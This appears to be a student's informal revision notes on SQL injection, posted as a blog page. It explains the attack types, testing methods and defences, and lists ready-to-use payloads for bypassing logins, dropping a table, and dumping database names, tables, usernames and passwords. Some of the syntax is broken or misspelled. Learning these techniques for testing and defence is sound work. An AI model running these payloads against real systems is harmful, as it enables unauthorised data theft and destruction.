 ```yaml
---
layout: post
title: You're up and running!
published: true
---
```

# SQL Injection Explained


SQL INJECTION : 
make notes for full sql too (revision)


 three types : 

1) In-Band(Classic) : 
types :  a) error : force database to give error to find backend logic and develop injection payload
b) union : combine two queries to make an attack 

2) Inferential(Blind) :  based on true false questiong queries
types : a) boolean : uses boolena condition .also called blind sqi .uses brute foce yes or no questions to 
extract information .

b) time : relies on databasepausing for a specified amount of time then returning
the results indicating a successful query execution . can be brute forced

3) Out-of-band (oast) : uses dns and http to the server to run queries in the server 
database and then run attacks




FINDING SQLI VILNARABILITIES : 

BLACK BOX AND white box testing 

a) black box testing : 
1) map he applicaion 
2) fuzz the applicaion : 
	> submit sql specific characters such as ' or ", and look for errors or 
	   other anomalies 

	> submit boolean condition such as or 1=1 or 1=2 for gettting true or false
	  for no response form error 

	> submit payloads designed to trigger time delays when executed within a sql query , and look for 
	  diffrences in the time taken to respond

	> Submit OAST payloads desgned to trigger out of band n/w internaction when executed within an sql query 
	  and monitor for any resulting interaction 



WHITE BOX TESTING :
a) ENABLE WEB SERVER LOGGING
b)enable database logging


	>Map the applicaion :
	  visible functinality in the application
	  regex search on all instances in the code thath talk to the databse

	> Code review:
	    allow code path for all input vecotrs 
	> test any sqli vulnarebility


write all attack syntaxes .



prevent sqli vulnarability. : 

1) perpared statement aka parapmetrized queries.

usage of .getParameter

2) stored procedure:  make functions and procedures and enter parameters to it .

3) allow list input validation : check if user input is valid or not 

4) cover escape character

sqli attacks : 

1) error fingerprinting : give wrong queries and then see the output error .
then use ' or "" to find how logic works 

"__ use this to comment out other section 

2) union based error . combine two queries to make an attack ( brute forcing number of columns and type of col int)
1) orderby clause  orderby 3 is out of range 
2) union select null :  select title,cost from product where id=1 union select null-- , "a"


3) check the number of columns bu multiple union queries 

chain command and add a query with a part 
select title from product where id = 1 and substring  = ) = 's'

out of band uses http request and dns  embedded within sql to give queries

use sql for  privelidge escalation  

xss:
open the url
and other steps

_________________________________________________________________________________________________________________________

sql injection :

\ or  ' for fingerprinting error 

making right side of query undetected

use -- query deliminator or #

finding number of columns : id = 1' order by 4 --+
do till error is not found 

to make left qery falseis to make -1


get database and function use union all select 1, database() , version() 

dumping database:

find table name 
union all select 1,table_name ,3 from information_Schema.tables --+

get security based table name 
union all select 1,table_name ,3 from information_Schema.tables where table_Schema = 'security' --+

group_concat

get list of tables
union all select 1,group_concat(table_name) ,3 from information_Schema.tables where table_Schema = database() --+


get all table data
union all select 1,group_concat(user_name , password) ,3 from  'users' --+ (users = table name)

dumping via sql : 
get current user

-5 union all select 1, current_user,8 --+



STEP 1 IS FINGERPRITING 

STEP 2 FIGURING OUT ALL INPUT PLACES WHERE PAYLOAD CAN BE EXECUTED

STEP 3 FIND THE PARAMETERS BEING ASKED FOR 

STEP 4 CONSTRUCT THE QUERY BASED ON THAT

TAUTOLOGY BASED SQL INJECTION : 
SELECT * FROM USER_DETAILS WHERE USERID = 'ABCD' AND PASSWORD = 'ANYTHING' OR 'X' = 'X'
select * from user_details where userid = 'abcd' and password = ''; drop table xyz -- ' ENTER PASSWORD AND THEN END QUERY AND START NEW 
QUERY

UNION BASED QUERY :

STEPS:
1) A NUMBER OF COLUMN AND ORDER OF COLUMNS OF ALL QUERIES MUST BE SAME 

2) THE DATA TYPES OF THE COLUMN OF EACH QUERY MUST BE SAME

3)USUALLY RETURNED COLUMN NAMES ARE TAKEN FROM THE FIRST QUERY 

SELECT * FROM USER_DETAILS WHERE USERID ='' UNION SELECT * FROM EMP_DETAILS --' AND PASSWORD = "ABCD'; AFTER --' QUERY IGNORED
LEARN USECASE OF SPECIAL CHARACTERS





SQL INJECTION payloads : 

1' --

1' --+ '
find out how many columns in table 

 1' order by 1 --+ '

and so on and continue by putting nos

and next try union 

-1 ' union all select 1,2,3,4,5,6,7 --+

can also use any no instead of 1,2,3 and also use abc

-1 ' union all select 1,database(),version() --+

-1 ' union all select 1,@@version() --+

dumping database : 

1' union all select 1, table_name , 3 from information_schema.tables --+

1' union all select 1, table_name , 3 from information_schema.tables = "security" --+

1' union all select 1, table_name , 3 from information_schema.tables = database() limit 0,1 --+ and so on 1,2   2,2   3,1


1' union all select 1, concat(table_name) , 3 from information_schema.tables --+


1' union all select 1, concat(table_name) , 3 from information_schema.columns where table_name = "newly found table name " --+


Injectiong with 'or' or 'and' :

1' union all select 1,2,3 or '1


1' union all select 1,2,3 and '0

and then use same as  database and version  and tablename


error based sql injection :
 when not understianding , to break query use /

other useful queries  : 

select count(*) from information_schema.tables

select table_name from information.schema.tables groupby table_schema;

select database();

select concat(select database(););


Blind sql injection  ::


